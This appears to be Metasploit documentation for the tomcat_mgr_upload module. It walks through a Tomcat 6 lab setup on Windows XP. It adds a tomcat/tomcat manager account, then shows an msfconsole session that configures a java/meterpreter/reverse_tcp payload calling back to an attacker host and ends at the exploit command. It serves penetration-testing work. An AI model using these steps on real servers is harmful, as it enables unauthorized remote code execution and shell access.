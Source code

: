 # Documentation Format
This documentation is slightly different from the standard module documentation due to the variation in variables/privileges/versions that can affect how exploitation happens.
This documentation is broken down by OS, Tomcat version, then privilege to show exploitation in each variation.

# tomcat_mgr_deploy
This module is VERY similar to `exploit/multi/http/tomcat_mgr_deploy`, the main difference is this uses a `POST` HTTP request through the GUI, instead of a `PUT` HTTP request.  This module also automatically undeploys (clean up) the malicious app.

## Windows (xp sp2)
### Tomcat 6 (6.0.48)
#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat6](http://apache.osuosl.org/tomcat/tomcat-6/v6.0.48/bin/apache-tomcat-6.0.48.exe)

The install was default, other than adding a user during install.  No other options were changed.  The install assgined the new user the role `manager-gui`, which is Tomcat 7+ syntax.
For this exploitation, it was changed to simply `manager`.

#### Exploitation

1. Edit `C:\Program Files\Apache Software Foundation\Tomcat 6.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

    ```
    <role rolename="manager"/>
    <user username="tomcat" password="tomcat" roles="manager"/>
    ```

2. Restart Tomcat service

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set rport 8086
    rport => 8086
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > check
    [*] 192.168.2.108:8086 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > exploit
    